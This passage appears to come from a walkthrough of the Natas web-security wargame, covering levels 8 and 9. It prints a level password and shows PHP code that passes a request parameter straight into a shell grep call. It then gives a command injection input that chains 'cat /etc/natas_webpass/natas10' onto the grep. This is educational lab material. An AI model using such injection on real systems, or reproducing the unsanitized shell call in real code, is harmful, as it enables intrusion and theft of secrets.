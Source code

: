 ![image-20200910194548812](natas8.png)

the final code is `oubWYf2kBq` which reveals the password.

```
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### natas9

Another secret.

Lets take a look at the source code.

```php+HTML
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

I might be able to inject a command into `grep -i $key dictionary.txt` . With the entry `whoami; cat /etc/natas_webpass/natas10 ; ` so that it looks like `grep -i whoami; cat /etc/natas_webpass/natas10; dictionary.txt`
